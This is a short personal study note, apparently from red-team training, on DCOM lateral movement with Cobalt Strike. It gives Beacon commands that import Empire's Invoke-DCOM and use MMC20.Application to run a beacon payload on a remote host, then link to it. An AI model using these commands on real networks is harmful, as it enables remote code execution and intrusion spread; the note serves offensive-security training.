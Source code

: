 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[DCOM]]  
___

## Description:  
For Lateral Movement in Cobalt Strike

Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1). 

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:27 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
